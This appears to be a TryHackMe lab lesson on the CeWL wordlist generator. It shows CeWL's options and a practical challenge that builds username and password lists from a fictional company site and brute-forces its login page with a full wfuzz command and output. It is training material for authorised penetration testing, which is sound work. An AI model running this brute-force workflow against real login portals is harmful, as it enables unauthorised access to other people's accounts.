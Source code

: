 #### How to use CeWL?

In the terminal, type `cewl -h` to see a list of all the options it accepts, complete with their descriptions.

```shell-session
$ cewl -h
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
Usage: cewl [OPTIONS] ... 

    OPTIONS:
	-h, --help: Show help.
	-k, --keep: Keep the downloaded file.
	-d ,--depth : Depth to spider to, default 2.
	-m, --min_word_length: Minimum word length, default 3.
	-x, --max_word_length: Maximum word length, default unset.
	-o, --offsite: Let the spider visit other sites.
	--exclude: A file containing a list of paths to exclude
	--allowed: A regex pattern that path must match to be followed
	-w, --write: Write the output to the file.
	-u, --ua : User agent to send.
	-n, --no-words: Don't output the wordlist.
	-g , --groups : Return groups of words as well
	--lowercase: Lowercase all parsed words
	--with-numbers: Accept words with numbers in as well as just letters
	--convert-umlauts: Convert common ISO-8859-1 (Latin-1) umlauts (ä-ae, ö-oe, ü-ue, ß-ss)
	-a, --meta: include meta data.
	--meta_file file: Output file for meta data.
	-e, --email: Include email addresses.
	--email_file : Output file for email addresses.
	--meta-temp-dir : The temporary directory used by exiftool when parsing files, default /tmp.
	-c, --count: Show the count for each word found.
	-v, --verbose: Verbose.
	--debug: Extra debug information.
[--snip--]
```

This will provide a full list of options to further customise your wordlist generation process. If CeWL is not installed in your VM, you may install it by using the command `sudo apt-get install cewl -y`

To generate a basic wordlist from a website, use the following command:

Terminal

```shell-session
user@tryhackme$ cewl http://MACHINE_IP                                     
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
Start
End
and
the
AntarctiCrafts
[--snip--]
```

To save the wordlist generated to a file, you can use the command below:

Terminal

```shell-session
user@tryhackme$ cewl http://MACHINE_IP -w output.txt
user@tryhackme$ ls
output.txt
```

#### Why CeWL?

CeWL is a wordlist generator that is unique compared to other tools available. While many tools rely on pre-defined lists or common dictionary attacks, CeWL creates custom wordlists based on web page content. Here's why CeWL stands out:

1. **Target-specific wordlists:** CeWL crafts wordlists specifically from the content of a targeted website. This means that the generated list is inherently tailored to the vocabulary and terminology used on that site. Such custom lists can increase the efficiency of brute-forcing tasks.
2. **Depth of search:** CeWL can spider a website to a specified depth, thereby extracting words from not just one page but also from linked pages up to the set depth.
3. **Customisable outputs:** CeWL provides various options to fine-tune the wordlist, such as setting a minimum word length, removing numbers, and including meta tags. This level of customisation can be advantageous for targeting specific types of credentials or vulnerabilities.
4. **Built-in features:** While its primary purpose is wordlist generation, CeWL includes functionalities such as username enumeration from author meta tags and email extraction.
5. **Efficiency:** Given its customisability, CeWL can often generate shorter but more relevant word lists than generic ones, making password attacks quicker and more precise.
6. **Integration with other tools:** Being command-line based, CeWL can be integrated seamlessly into automated workflows, and its outputs can be directly fed into other cyber security tools.
7. **Actively maintained:** CeWL is actively maintained and updated. This means it stays relevant and compatible with contemporary security needs and challenges.

In conclusion, while there are many wordlist generators out there, CeWL offers a distinct approach by crafting lists based on a target's own content. This can often provide a strategic edge in penetration testing scenarios.

#### How To Customise the Output for Specific Tasks

CeWL provides a lot of options that allow you to tailor the wordlist to your needs:

1. **Specify spidering depth:** The `-d` option allows you to set how deep CeWL should spider. For example, to spider two links deep: `cewl http://MACHINE_IP -d 2 -w output1.txt`
2. **Set minimum and maximum word length:** Use the `-m` and `-x` options respectively. For instance, to get words between 5 and 10 characters: `cewl http://MACHINE_IP -m 5 -x 10 -w output2.txt`
3. **Handle authentication:** If the target site is behind a login, you can use the `-a` flag for form-based authentication.
4. **Custom extensions:** The `--with-numbers` option will append numbers to words, and using `--extension` allows you to append custom extensions to each word, making it useful for directory or file brute-forcing.
5. **Follow external links:** By default, CeWL doesn't spider external sites, but using the `--offsite` option allows you to do so.

#### Practical Challenge

To put our theoretical knowledge into practice, we'll attempt to gain access to the portal located at `http://MACHINE_IP/login.php`

Your goal for this task is to find a valid login credential in the login portal. You might want to follow the step-by-step tutorial below as a guide.

1. **Create a password list using CeWL:** Use the AntarctiCrafts homepage to generate a wordlist that could potentially hold the key to the portal.
    
    Terminal
    
    ```shell-session
    user@tryhackme$ cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers
    user@tryhackme$ cat passwords.txt
    telephone
    support
    Image
    Professional
    Stuffs
    Ready
    Business
    Isaias
    Security
    Daniel
    [--snip--]
    ```
    
    **Hint:** Keep an eye out for AntarctiCrafts-specific terminology or phrases that are likely to resonate with the staff, as these could become potential passwords.
    
2. **Create a username list using CeWL:** Use the AntarctiCrafts' Team Members page to generate a wordlist that could potentially contain the usernames of the employees.
    
    Terminal
    
    ```shell-session
    user@tryhackme$ cewl -d 0 -m 5 -w usernames.txt http://MACHINE_IP/team.php --lowercase
    user@tryhackme$ cat usernames.txt
    start
    antarcticrafts
    stylesheet
    about
    contact
    services
    sculptures
    libraries
    template
    spinner
    [--snip--]
    ```
    
3. **Brute-force the login portal using wfuzz:** With your wordlist ready and the list of usernames from the Team Members page, it's time to test the login portal. Use **wfuzz** to brute-force the `/login.php`.
    
    What is wfuzz? Wfuzz is a tool designed for brute-forcing web applications. It can be used to find resources not linked directories, servlets, scripts, etc, brute-force GET and POST parameters for checking different kinds of injections (SQL, XSS, LDAP), brute-force forms parameters (user/password) and fuzzing.
    
    Terminal
    
    ```shell-session
    user@tryhackme$ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://MACHINE_IP/login.php
    Total requests: 60372
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                             
    =====================================================================
    
    000018052:   302        124 L    323 W      5047 Ch     "REDACTED - REDACTED"                                
    
    Total time: 412.9068
    Processed Requests: 60372
    Filtered Requests: 60371
    Requests/sec.: 146.2121
    ```
    
    In the command above:
    
    - `-z file,usernames.txt` loads the usernames list.
    - `-z file,passwords.txt` uses the password list generated by CeWL.
    - `--hs "Please enter the correct credentials"` hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
    - `-u` specifies the target URL.
    - `-d "username=FUZZ&password=FUZ2Z"` provides the POST data format where **FUZZ** will be replaced by usernames and **FUZ2Z** by passwords.
    
    Note: The output above contains the word REDACTED since it contains the correct combination of username and password.
    
4. The login portal of the application is located at `http://MACHINE_IP/login.php`. Use the credentials you got from the brute-force attack to log in to the application. 

